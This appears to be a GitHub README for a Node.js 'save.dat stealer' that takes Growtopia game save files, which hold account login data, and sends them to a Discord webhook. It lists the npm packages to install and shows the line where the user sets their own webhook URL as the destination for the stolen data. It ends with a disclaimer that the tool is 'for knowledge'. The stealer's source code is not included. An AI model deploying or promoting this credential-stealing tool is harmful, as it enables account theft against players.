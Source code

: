 # Node-Save.dat-stealer
Super simple growtopia save.dat stealer written by node js

Installation
=======

- ```npm install username```
- ```npm install request```
- ```npm install discord-webhook-node```



editing webhook url
===============
```js
const client = new Webhook('your webhook url');//your webhook url
```

![alt text](https://media.discordapp.net/attachments/866632360165376060/878156135037796392/unknown.png?width=493&height=473)

reminder
===============

I am not responsible for what you do, the purpose of this creation is for knowledge
